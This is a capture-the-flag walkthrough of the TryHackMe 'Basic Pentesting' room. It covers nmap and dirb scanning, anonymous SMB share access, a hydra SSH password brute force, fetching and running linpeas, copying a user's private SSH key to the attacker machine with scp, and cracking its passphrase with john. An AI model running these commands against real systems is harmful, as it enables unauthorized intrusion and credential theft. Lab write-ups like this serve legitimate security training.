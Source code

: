 # Basic Pentesting

**Room Link:** [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)



## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>



### HTTP port 80

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (6) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

## SMB port 139

**Kali**

```
nmap $VICTIM --script=smb-enum*
```

<figure><img src="../../.gitbook/assets/image (8) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (62) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbclient -L //$VICTIM/ -U anonymous
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

We found a file that has two possible usernames. In the note above it mentioned someone with J in their name has a weak password.

**Kali**

```
smbclient \\\\$VICTIM\\Anonymous -U anonymous
prompt
mget *
exit
cat staff.txt
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

### SSH port 22

**Kali**

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jan@$VICTIM
Password: armando
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (6) (2) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (4) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
ls -lah /home/kay/.ssh/
```

<figure><img src="../../.gitbook/assets/image (26) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```

It is password protected so we need to try to get the password from john

**Kali**

<pre><code>chmod 400 id_rsa 
<strong>ssh -i id_rsa kay@$VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > pass_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt
```

<figure><img src="../../.gitbook/assets/image (5) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa kay@$VICTIM
Password: beeswax
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat pass.bak 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
